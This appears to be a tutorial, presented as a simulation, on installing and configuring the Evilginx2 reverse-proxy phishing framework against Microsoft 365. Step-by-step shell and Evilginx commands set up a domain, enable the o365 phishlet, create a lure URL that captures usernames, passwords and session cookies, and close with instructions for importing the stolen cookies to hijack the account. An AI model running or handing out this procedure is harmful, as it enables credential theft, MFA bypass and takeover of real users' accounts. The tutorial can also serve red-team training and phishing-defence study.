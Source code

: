 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.

sudo apt update 
sudo apt install wget -y

Next, let’s download the Go installation files.
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz

Install Go by executing the following command:
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/

Next, configure the PATH environment variable by running:
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh

Execute the following commands to clone the source files from GitHub:
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make

After completing the cloning process, we can proceed to install Evilginx globally and run it.
sudo make install 
sudo evilginx

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242

config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth

Next, let’s configure the Office 365 phishlet to match our domain.
phishlets hostname o365 <yourdomain> 
phishlets enable o365

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.

lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





